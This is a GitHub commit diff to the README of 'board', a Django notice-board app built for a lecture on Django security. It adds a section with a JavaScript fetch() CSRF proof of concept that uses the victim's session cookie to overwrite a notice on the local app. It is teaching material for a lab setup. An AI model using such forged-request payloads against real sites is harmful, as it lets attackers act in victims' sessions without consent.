

Before and after one commit to antonioalanxs/board, a Markdown page: README.md, 3 parts joined by grey strips. Shown: that part at 82% size. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
docs: Update README.md

````diff
--- a/README.md
+++ b/README.md
@@ -4,14 +4,17 @@
 
 1. [Overview](#overview)
 2. [Installation](#installation)
-3. [Features](#features)
-4. [What have I learned?](#what-have-i-learned)
+3. [Attack the application](#attack-the-application)
+4. [Features](#features)
+5. [What have I learned?](#what-have-i-learned)
 
 ## Overview
 
-board is a minimalist notice board built using [HTML](https://developer.mozilla.org/en-US/docs/Web/HTML), [Tailwind CSS](https://tailwindcss.com/), [Django](https://www.djangoproject.com/), [MySQL](https://www.mysql.com/) and [Docker](https://www.docker.com/). This web application was used to give a lecture on the operation of Django and its security mechanisms.
+board is a minimalist notice board built using [HTML](https://developer.mozilla.org/en-US/docs/Web/HTML), [Tailwind CSS](https://tailwindcss.com/), [Django](https://www.djangoproject.com/), [MySQL](https://www.mysql.com/) and [Docker](https://www.docker.com/).
 
-### Demonstration
+This web application was used to give a lecture on the operation of Django and its security mechanisms. This lecture covers topics such as user authentication, URL protection, Middleware, CORS and CSRF Attack and Defense strategies.
+
+### Demonstration of the application
 
 <video src="https://github.com/antonioalanxs/board/assets/79718376/a3d8ddd6-486b-4007-bb52-db1aba3a1e6f" alt="Demonstration"></video>
 
@@ -51,6 +54,31 @@ docker compose down
 ```
 
 The application was turned off.
+
+## Attack the application
+
+1.  [Run the application](#run-the-application) and log in with an [user](#sample-users). This will cause the browser to save its `sessionid`.
+
+2.  Select the `slug` of the notice that you want to edit attacking it. You can do this using [phpMyAdmin](http://localhost:8080) or by looking at the notice URL.
+
+3.  Change current working directory to `attack-server` and Run Attack Server (e.g., `python -m http.server 5000`).
+
+4.  The Attack Server will edit the notice by fetching its URL including the necessary cookies (stored in the browser previously when logging in, `sessionid`) so that the request is not denied.
+```javascript
+const slug = "3e2e62cf-35f2-4d8e-9244-8649a4748c52" // Example notice slug
+
+fetch(`http://localhost:8000/update/${slug}`, {
+    method: "POST",
+    credentials: "include",
+    headers: {
+        "Content-Type": "application/x-www-form-urlencoded",
+    },
+    body: "title=attacker&content=attacker"
+})
+    .then(res => res.text())
+    .then(text => console.log(text))
+    .catch(err => console.error(err));
+```
 
 ## Features
 
@@ -98,4 +126,8 @@ The application was turned off.
 
 - **Middleware utilization**: Learned how to use middlewares in the context of Django, allowing customization and extension of web application's behavior.
 
+- **Understanding CORS (Cross-Origin Resource Sharing)**: Acquired knowledge about how CORS works and its significance in web development. Learned how to handle and configure CORS to enable secure communication between different origins in the context of web applications.
+
+- **CSRF Attack and Defense Strategies**: Explored the concept of Cross-Site Request Forgery (CSRF) attacks and gained insights into both launching and defending against such attacks. Developed strategies to implement CSRF protection measures in web applications, ensuring the security of user data and interactions.
+
 - **Enhanced communication skills**: Strengthened communication abilities through giving the lecture, enhancing my ability to communicate ideas effectively.
````
